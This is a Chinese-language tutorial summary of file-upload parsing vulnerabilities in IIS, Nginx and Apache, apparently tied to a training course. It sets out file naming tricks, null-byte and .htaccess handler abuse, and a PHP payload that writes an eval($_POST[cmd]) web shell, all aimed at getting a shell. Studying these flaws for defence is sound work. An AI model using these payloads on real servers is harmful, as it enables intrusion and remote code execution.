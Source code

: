 # 文件解析漏洞总结

## 一、IIS 5.x/6.0解析漏洞

IIS 6.0解析利用方法有两种

1.目录解析

```
/xx.asp/xx.jpg
```

2.文件解析

```
cracer.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 cracer.asp，那么

```
/cracer.asp/1.jpg
```

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```
cracer.asp;.jpg
```

会被服务器看成是cracer.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```
/cracer.asa/cracer.cer/cracer.cdx
```


## 二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为cracer.jpg，内容为

```
<?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>
```

的文件，然后访问cracer.jpg/.php,在这个目录下就会生成一句话木马 shell.php

## 三、Nginx <8.03 空字节代码执行漏洞

影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

```
xxx.jpg%00.php
```

来执行其中的代码



## 四、Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 `cracer.php.owf.rar` “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把`cracer.php.owf.rar`解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个cracer.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀



## 五、其他

在windows环境下，`xx.jpg[空格]` 或`xx.jpg.` 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```
<FilesMatch “cracer.jpg”> SetHandler application/x-httpd-php </FilesMatch>
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。

## 相关课程

![](http://bbs.ichunqiu.com/data/attachment/forum/201602/07/101932shczxhijt4chjihc.png)

[非法文件上传漏洞技术解析及防御](http://www.ichunqiu.com/course/78)
